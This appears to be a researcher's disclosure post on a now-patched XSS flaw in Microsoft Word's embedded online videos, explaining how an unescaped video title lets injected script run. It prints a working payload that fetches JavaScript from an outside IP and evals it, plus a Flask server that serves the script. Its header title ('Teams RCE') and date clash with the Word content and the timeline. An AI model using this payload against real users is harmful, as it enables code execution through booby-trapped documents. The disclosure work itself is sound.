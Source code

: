 ```yaml
---
layout: post
title:  "2022 Microsoft Teams RCE"
date:   2023-01-17 00:18:20 +0900
---
```


# Summary

In the server, when parsing a video from a link designated by an attacker, a malicious payload included in the video title can trigger an XSS (Cross-site Scripting) attack, allowing the execution of arbitrary Javascript code.

# The Basics

- **Product:** Office Word, including Office 365 Word
- **Tested Version:** Microsoft Word for Microsoft 365 MSO (Version 2306 Build 16.0.16529.20164) 64-bit
- **Bug-class**: XSS(Cross-Site Scripting)

# The Vulnerability

  Various Office products, including MS Word, allow users to insert desired external videos into documents via the "Online Videos" tab.

![pic1.jpg](office/pic1.jpg)

  When a user plays an external video embedded in a document, Office checks whether the provider of the external video is trustworthy, such as YouTube. This check is performed by applying the following regular expression to the URL.

```python
https?://(www\.)?youtube\.\w{2,3}/.*|https?://(www\.)?youtube-nocookie\.\w{2,3}/.*|https?://youtu\.be/.*|https?://(player\.)?vimeo\.com/.*|https?://(\w+\.)?slideshare\.net/.*|https?://(\w+\.)?microsoftstream\.com/.*
```

  If it is deemed trustworthy, it sends a request like the following to fetch data such as the video's title or thumbnail.

```python
GET https://hubble.officeapps.live.com/mediasvc/api/media/oembed?url=https%3A%2F%2Fwww.youtube.com%2Fembed%2FGX2nEmvxK-4%3Ffeature%3Doembed&streamsso=true&lcid=1033&syslcid=1042&uilcid=1033&app=0&ver=16&build=16.0.16529&platform=Win32 HTTP/1.1
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Word 16.0.16529; Pro)
X-IDCRL_ACCEPTED: t
X-Office-Version: 16.0.16529
X-Office-Application: 0
X-Office-Platform: Win32
X-Office-AudienceGroup: Production
X-Office-SessionId: DE75B69F-49BA-4D92-BD45-2B02504B4021
Host: hubble.officeapps.live.com
```

  The server at [hubble.officeapps.live.com](http://hubble.officeapps.live.com/) responds with information including the video's title, description, and the HTML iframe tag to play the video.

  The vulnerability arises from this iframe tag. The server adds the video's title to the “**title”** attribute of the iframe tag without any validation. As a result, by appropriately using double quotes, one can freely add an **onload** attribute to the iframe tag that the server responds with.

  Below is an example of an [officeapps.live.com](http://officeapps.live.com/) server response to a malicious external video.

```json
{
    "description": "",
    "video_description": "",
    "start_time": null,
    "end_time": null,
    "embed_url": "https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed",
    "html": "<iframe width=\"200\" height=\"150\" src=\"https://www.youtube.com/embed/GX2nEmvxK-4?feature=oembed\" frameborder=\"0\" allow=\"accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share\" allowfullscreen=\"\" title=\"\" onload=\"fetch('http://158.247.239.32/a.js').then(function(a){a.text().then(function(a){eval(a)})})\" sandbox=\"allow-scripts allow-same-origin allow-popups\"></iframe>",
    "type": "video",
    "title": "\" onload=\"fetch('http://127.0.0.1/a.js').then(function(a){a.text().then(function(a){eval(a)})})",
    "provider_name": "YouTube",
    "provider_url": "https://www.youtube.com/",
    "thumbnail_url": "https://i.ytimg.com/vi/GX2nEmvxK-4/hqdefault.jpg",
    "thumbnail_width": 480.0,
    "thumbnail_height": 360.0,
    "width": 200.0,
    "height": 150.0
}
```

  Based on this response, Word writes an HTML file to be rendered through **Edge Webview** in the %LOCALAPPDATA%\Microsoft\Windows\INetCache\Content.Word directory.

  As a result, this HTML will include the JS code injected by the attacker. (The logic for this is implemented in wwlib!XszCreateVideoHTML. A detailed analysis of this is beyond the scope of this article.)

  As seen above, the sandbox attribute of the iframe has allow-scripts, allow-same-origin, and allow-popups set. This means that JavaScript can be executed, desired URIs can be run through window.open, or scripts from an external server can be executed via the fetch method.

# Exploit

1. As shown in the example in the vulnerability description, create a YouTube video with a title that includes a payload for inserting the onload attribute.

`" onload="fetch('[http://127.0.0.1/a.js](http://127.0.0.1/a.js)').then(function(a){a.text().then(function(a){eval(a)})})`

1. Click on the Online Videos tab in Word and insert the URL of the malicious video into the document.

![Untitled](office/Untitled.png)

1. Set up a simple web server that allows CORS and responds with malicious javascript, as below. (The example executes calc.exe through the calculator URI Scheme.)

```python
from flask import Flask

app = Flask(__name__)

@app.after_request
def apply_cors(response):
    response.headers['Access-Control-Allow-Origin'] = '*'
    return response

@app.route('/a.js', methods=['GET'])
def exploit():
    return 'window.open("calculator://")'
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

# Demo

[PoC_Public.mp4](office/PoC_Public.mp4)

# Conclusion

  The vulnerability has shown that an attacker can create a Word document containing a specific video and execute the arbitrary javascript code when playing the video.

  Past critical exploits of Office, such as CVE-2021-40444 and CVE-2022-30190 (Folina), all started with the execution of arbitrary javascript. If it's linked with a new vulnerable URI, like the previously exploited ms-msdt, it could directly lead to a critical RCE (Remote Code Execution) vulnerability.

  Especially as a vulnerability that triggers when a video embedded in Word is played, it's easy for an attacker to induce a user to play the video. Prompt action is required.

# Reference

- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190)

# TimeLine

- 2023-07-27 Vulnerability reported to MSRC
- 2023-08-25 Recognized as a security vulnerability with a severity of **Critical**
- 2023-09-12 Patched in the latest release
